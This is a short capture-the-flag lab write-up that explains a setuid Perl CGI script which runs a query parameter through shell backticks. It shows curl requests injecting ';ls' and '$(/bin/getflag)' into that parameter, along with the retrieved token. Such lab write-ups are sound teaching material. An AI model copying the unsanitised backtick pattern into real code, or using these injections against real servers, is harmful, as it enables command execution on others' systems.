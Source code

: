 # Solution

So once we loged in, we see a level04.pl which is a perl program setuid here is the program.

```pl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

The important part is this line **print `echo $y 2>&1`;** in perl the back tick will execute a command the $y is the variable,
from the parameter x so the call to the proper uri will look like this:

```sh
curl localhost:4747?x=;ls
```

the result will be the ls execution, so basically we need to use the leverage of param x and load getflag result in $y.

Here is the result:

```sh
curl localhost:4747?x='$(/bin/getflag)'
```

this will be the result of the command above:

```sh
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```
